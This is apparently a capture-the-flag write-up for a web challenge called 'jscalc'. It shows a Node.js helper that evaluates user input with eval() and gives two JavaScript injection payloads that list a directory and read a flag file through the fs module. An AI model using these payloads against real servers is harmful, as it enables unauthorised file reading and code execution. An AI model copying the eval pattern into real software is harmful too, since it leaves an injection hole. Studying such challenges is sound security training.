 - `/web_jscalc/challenge/helpers/calculatorHelper.js`

```javascript
module.exports = {
  calculate(formula) {
    try {
      return eval(`(function() { return ${formula} ;}())`);
    } catch (e) {
      if (e instanceof SyntaxError) {
        return "Something went wrong!";
      }
    }
  },
};

// ocd
```

**Attention!**

```javascript
return eval(`(function() { return ${formula} ;}())`);
```

## Payload

- For list `dir`

```javascript
require("fs").readdirSync("..").toString();
```

- For read `file`:

```javascript
require("fs").readFileSync("../flag.txt").toString();
```

